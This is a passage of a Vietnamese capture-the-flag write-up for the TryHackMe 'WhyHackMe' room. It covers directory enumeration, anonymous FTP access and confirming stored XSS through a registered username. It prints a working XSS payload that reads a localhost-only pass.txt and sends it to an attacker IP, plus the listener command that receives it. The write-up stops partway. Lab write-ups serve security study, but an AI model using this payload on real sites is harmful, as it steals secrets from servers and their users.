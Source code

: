 # WhyHackMe-TryHackMe

recon

<img width="1273" height="629" alt="image" src="https://github.com/user-attachments/assets/871a24ad-7c08-4a74-9286-868099a95811" />

enumerating

└─$ gobuster dir -u http://10.201.5.140/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

<img width="970" height="680" alt="image" src="https://github.com/user-attachments/assets/cb41927b-860f-4653-9606-d868ad661fb3" />

<img width="1278" height="766" alt="image" src="https://github.com/user-attachments/assets/b60464f7-e27e-4ffa-9d87-c34203d4486b" />

vì port 21 được mở tôi thử truy cập vào ftp với người dùng anonymous và thấy 1 tệp là update.txt

<img width="1267" height="412" alt="image" src="https://github.com/user-attachments/assets/8a8c6abc-d9d6-4265-8d5c-901ba136fc07" />

tôi thử tải về và đọc 

ở đây có một tệp có tên là pass.txt chỉ có thể truy cập được trên web cho máy cục bộ

<img width="1274" height="187" alt="image" src="https://github.com/user-attachments/assets/42972f94-ac72-4cfb-bf4f-589036dd98c1" />

tôi sẽ quay lại trang /register.php

về việc đăng ký tài khoản thì dễ dàng sau đó login vào

<img width="1282" height="618" alt="image" src="https://github.com/user-attachments/assets/7e497179-653d-4f98-a642-84152a5e5032" />

sau khi login thành công nó hiện liên kết qua trang blog 

thì sau khi đăng nhập trang blog hiển thị bình luận sau 

<img width="1265" height="773" alt="image" src="https://github.com/user-attachments/assets/ece3ce5b-0cad-4278-91a5-664c72459fb7" />

tôi quay lại trang register đăng ký tên người dùng là <script>alert(1)</script> và mật khẩu bất kỳ 

sau đó đăng nhập vào blog viết 1 bình luận bất kỳ và nó hiển thị : 

<img width="1273" height="648" alt="image" src="https://github.com/user-attachments/assets/388ffc94-2bef-400d-95a6-283364d0de9f" />

điều này xác nhập là có thể tấn công qua lỗ hổng XSS
 
tôi tham khảo được lệnh XSS này 

<script>fetch("http://127.0.0.1/dir/pass.txt").then(response => response.text()).then(data => fetch("http://10.14.108.226:8080/?data=" + encodeURIComponent(data)));</script>

dùng nó đăng ký tên đăng nhập với mật khẩu bất kỳ 

khởi chạy

└─$ python3 -m http.server 8080

sau đó bình luận trên trang blog 
